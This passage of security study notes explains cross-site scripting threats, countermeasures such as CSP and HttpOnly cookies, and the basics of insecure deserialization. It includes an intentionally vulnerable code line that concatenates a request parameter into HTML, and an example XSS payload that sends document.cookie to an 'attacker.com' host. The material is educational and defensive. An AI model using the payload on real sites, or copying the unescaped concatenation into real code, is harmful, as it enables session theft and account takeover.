 ### Threats of Cross-Site Scripting (XSS)

- Session stealing
- Account takeover
- [MFA](./../01-introduction/identity-access-management-(iam).md#multi-factor-authentication-mfa) bypass
- DOM node replacement or defacement (such as trojan login panels)
- Attacks against the user's browser such as malicious software download
- Key logging

### Example attacks for Cross-Site Scripting (XSS)

- Application sets value of an HTML parameter to an input without proper validation/sanitization

  ```html
    page += "<input name='credit-card' type='TEXT'
    value='" + request.getParameter("CC") + "'>";
  ```

- Attacker can then modify CC parameter in browser to: `'><script>document.location=
'http://attacker.com/cgi-bin/cookie.cgi?
foo='+document.cookie</script>'.`
- More examples are at [XSS filter evasion cheatsheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)
  - ❗ However must of them gets detected and filtered by Chrome or Firefox.
  - 💡 Can test if the injection will be successful on e.g. [Damn Vulnerable Web Application (DVWA)](https://github.com/digininja/DVWA)

### Countermeasures for Cross-Site Scripting (XSS)

- Enable Content Security Policy (CSP) as a defense-in-depth mitigating control against XSS.
  - Only allows executing scripts from permitted domains.
- Filter input on arrival
- Set `HttpOnly` flag set for session cookies so they cannot be reached through JavaScript.
- 📝 Escape HTML code
  - Escape untrusted HTTP request data based on the context in the HTML output
  - Use frameworks that automatically escape XSS by design
  - Apply context-sensitive encoding
    - Encoding of HTML and JavaScript is different when modifying them based on user data

## Insecure deserialization

- Exploited by injecting malicious code into serialized data.
- Allows attacker to gain access through execution of malicious serialized data.
- Serialization can be used in e.g. caches, databases, HTTP cookies, authentication tokens..

### Attacks for insecure deserialization

- Object and data structure related attacks
  - Attacker modifies application logic or achieves remote code execution
- Data tampering attacks
  - E.g. access-control-related attacks where data content is changed
    - E.g. changing `role: user` to `role: admin`
  - Other serialization attack
